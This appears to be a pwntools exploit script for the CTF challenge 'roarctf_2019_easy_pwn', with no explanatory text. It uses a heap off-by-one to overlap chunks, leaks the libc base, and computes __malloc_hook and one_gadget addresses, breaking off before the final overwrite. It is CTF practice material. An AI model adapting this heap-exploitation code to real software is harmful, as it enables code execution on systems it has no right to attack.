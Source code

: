 ```python  
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './roarctf_2019_easy_pwn' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("node3.buuoj.cn",25768)
elf=ELF(binary)
libc=elf.libc
def add(size):
    p.recvuntil("choice: ")
    p.sendline("1")
    p.recvuntil("size: ")
    p.sendline(str(size))
def edit(index,size,content):
    p.recvuntil("choice: ")
    p.sendline("2")
    p.recvuntil("index: ")
    p.sendline(str(index))
    p.recvuntil("size: ")
    p.sendline(str(size))
    p.recvuntil("content: ")
    p.sendline(str(content))
def free(index):
    p.recvuntil('choice: ')
    p.sendline('3')
    p.recvuntil('index:')
    p.sendline(str(index))
def show(index):
    p.recvuntil("choice: ")
    p.sendline("4")
    p.recvuntil("index: ")
    p.sendline(str(index))
def exp():
    add(0x18) # 0
    add(0x68) # 1
    add(0x68) # 2
    add(0x68) # 3
    add(0x68) # 4
    add(0x68) # 5
    add(0x68) # 6
    payload = "a"*0x18 + p8(0xe1)
    edit(0,0x22,payload)
    free(1)
    add(0x68) # 1
    
    show(2)
    libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x3c4b78  # leak libc_base
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    realloc = libc_base + libc.sym['realloc']
    one_gadget = libc_base + 0x4526a
    log.success("libc_base==>" + hex(libc_base))
    log.success("malloc_hook==>" + hex(malloc_hook))
    log.success("realloc==>" + hex(realloc))
    log.success("one_gadget==>" + hex(one_gadget))
    
    payload = "a"*0x68 + p8(0xe1)
    edit(4,0x68+10,payload)
    free(5)
```